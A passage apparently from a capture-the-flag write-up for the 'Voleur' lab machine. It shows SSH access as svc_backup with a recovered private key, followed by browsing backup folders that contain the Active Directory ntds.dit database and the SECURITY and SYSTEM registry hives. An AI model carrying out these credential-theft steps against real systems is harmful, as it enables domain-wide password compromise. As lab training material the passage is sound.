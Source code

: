 and its work for svc_backup

```bash
`➜  voleur chmod 0600 id_rsa 
➜  voleur ssh svc_backup@dc.voleur.htb -i id_rsa -p 2222
The authenticity of host '[dc.voleur.htb]:2222 ([10.10.11.76]:2222)' can't be established.
ED25519 key fingerprint is SHA256:mKWAEwLTnEN2bJNi7fkc+BZodiXCIiP3ywSLJiZL0ss.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[dc.voleur.htb]:2222' (ED25519) to the list of known hosts.
Welcome to Ubuntu 20.04 LTS (GNU/Linux 4.4.0-20348-Microsoft x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Jul  6 01:59:42 PDT 2025

  System load:    0.52      Processes:             15
  Usage of /home: unknown   Users logged in:       0
  Memory usage:   29%       IPv4 address for eth0: 10.10.11.76
  Swap usage:     2%

363 updates can be installed immediately.
257 of these updates are security updates.
To see these additional updates run: apt list --upgradable

The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Sat Jul  5 21:43:22 2025 from 10.10.11.76
 * Starting OpenBSD Secure Shell server sshd                                                                                                          [ OK ] 
svc_backup@DC:~$ 

```

and lets check Backups if we have with svc_backup

```bash
svc_backup@DC:/mnt/c/it/Third-Line Support/Backups$ ls -la
total 0
drwxrwxrwx 1 svc_backup svc_backup 4096 Jan 30 08:11  .
dr-xr-xr-x 1 svc_backup svc_backup 4096 Jan 30 08:11  ..
drwxrwxrwx 1 svc_backup svc_backup 4096 Jan 30 03:49 'Active Directory'
drwxrwxrwx 1 svc_backup svc_backup 4096 Jan 30 03:49  registry
svc_backup@DC:/mnt/c/it/Third-Line Support/Backups$ cd Active\ Directory/
svc_backup@DC:/mnt/c/it/Third-Line Support/Backups/Active Directory$ dir
ntds.dit  ntds.jfm
svc_backup@DC:/mnt/c/it/Third-Line Support/Backups/Active Directory$ ls
ntds.dit  ntds.jfm
svc_backup@DC:/mnt/c/it/Third-Line Support/Backups/Active Directory$ cd ..
svc_backup@DC:/mnt/c/it/Third-Line Support/Backups$ cd registry/
svc_backup@DC:/mnt/c/it/Third-Line Support/Backups/registry$ ls
SECURITY  SYSTEM
```
